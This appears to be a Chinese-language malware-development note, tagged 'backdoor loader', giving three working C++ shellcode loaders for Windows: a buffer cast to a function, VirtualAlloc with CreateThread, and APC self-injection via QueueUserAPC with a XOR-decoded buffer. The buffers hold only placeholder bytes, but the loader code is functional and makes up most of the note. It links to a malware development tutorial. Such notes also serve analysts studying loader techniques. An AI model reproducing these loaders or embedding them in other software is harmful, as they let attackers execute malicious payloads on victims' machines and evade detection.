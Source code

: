 # 执行shellcode

keywords: backdoor loader 恶意软件  

使用各种方法执行shellcode  


## 作为函数直接调用
```cpp
#include <stdio.h>

int main() {
	unsigned char buf[] ="\x11\x22";

	void(*func)();
	func = (void(*)())&buf;
	func();

	return 0;
}
```


## 使用CreateThread
```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	PVOID shellcode_exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, buf, sizeof(buf));
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);

	return 0;
}
```


## APC线程注入
APC, Asynchronous Procedure Calls, 异步过程调用，在特定线程的上下文中异步执行函数  
这些函数可以触发异步执行函数调用：  
```r
SleepEx
SignalObjectAndWait
MsgWaitForMultipleObjectsEx
WaitForMultipleObjectsEx
WaitForSingleObjectEx 
```

示例：  
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>

int main()
{
    char xor_shell[] = "\x11\x22";

    char* shellcode;
    int shellcode_size = 0;

    for (int i = 0; i < sizeof xor_shell; i++)
    {
        xor_shell[i] ^= 13;
    }

    shellcode = xor_shell;
    shellcode_size = sizeof(xor_shell);

    // 开启一个线程
    HANDLE hthread = OpenThread(16, 0, GetCurrentThreadId());

    // 给现在的进程申请一个可读可执行的内存
    char* buffer = (char*)VirtualAllocEx(GetCurrentProcess(), 0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 复制内存内容
    CopyMemory(buffer, shellcode, shellcode_size);

    // 将用户模式异步过程调用(APC)对象添加到指定线程的APC队列
    // 这里就是添加到此线程的APC队列
    // 第一个参数是 指向应用程序提供的APC函数的指针，该函数在指定线程执行可警报等待操作时调用
    QueueUserAPC((PAPCFUNC)buffer, hthread, (ULONG_PTR)buffer);

    // 挂起当前线程，直到满足指定条件，超过时间间隔后，执行恢复
    SleepEx(5, 1);

    return 0;
}
```


## 参考链接
1. https://0xpat.github.io/Malware_development_part_1
2. 初九_9 https://www.bilibili.com/video/BV1Km4y1Z73g
3. APC介绍: https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls


---
2022/2/15  
